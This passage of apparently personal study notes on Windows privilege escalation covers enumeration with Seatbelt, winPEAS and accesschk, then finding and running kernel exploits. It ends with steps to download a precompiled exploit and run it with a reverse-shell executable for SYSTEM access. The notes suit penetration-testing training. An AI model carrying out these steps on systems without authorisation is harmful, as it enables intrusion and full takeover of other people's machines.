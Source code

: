 To run specific check(s):
```cmd
> .\Seatbelt.exe <check> <check> ...
```

### winPEAS
[winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) very powerful tool that not only actively hunts for privilege escalation misconfigurations, but highlights them for the user in the results.

Before running, we need to add a registry key and then reopen the command prompt:
```cmd
> reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```
This adds colors to your command prompt.

Run all checks while avoiding time-consuming searches:
```cmd
> .\winPEASany.exe quiet cmd fast
```

Run specific check categories:
```cmd
> .\winPEASany.exe quiet cmd systeminfo
```

### accesschk.exe
Old but trustworthy tool for checking user access control rights. You can use it to check whether a user or grup has access to files, directories, services, and registry keys.
The downside is more recent versions of the program spawn a GUI "accept EULA" popup window. When using the command line, we have to use an older version which still has an /accepteula command line option.

## Kernel Exploits
The kernel has complete control over the operating system. Exploiting a kernel vulnerability can result in execution as the SYSTEM user. 

### Finding Kernel Exploits
Finding and using kernel exploits is usually a simple process:
1. Enumerate Windows version / patch level (systeminfo).
2. Find matching exploits (Google, ExploitDB, GitHub).
3. Compile and run

Beware though, as Kernel exploits can often be unstable and may be one-shot or cause a system crash.
[Windows Exploit Suggester](https://github.com/bitsadmin/wesng)
[Precompiled Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
[Watson](https://github.com/rasta-mouse/Watson)

### Privilege Escalation
1. Extract the output of the systeminfo command:
```cmd
> systeminfo > systeminfo.txt
```
2. Run wesng to find potential exploits:
```bash
# python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less
```
3. Cross-reference results with [compiled exploits](https://github.com/SecWiki/windows-kernel-exploits)
4. Download the compiled exploit onto the Windows machine
5. Start a listener on Kali and run the exploit, providing it with the reverse shell executable, which should run with SYSTEM privileges:
```cmd
> .\x64.exe C:\PrivEsc\reverse.exe
```
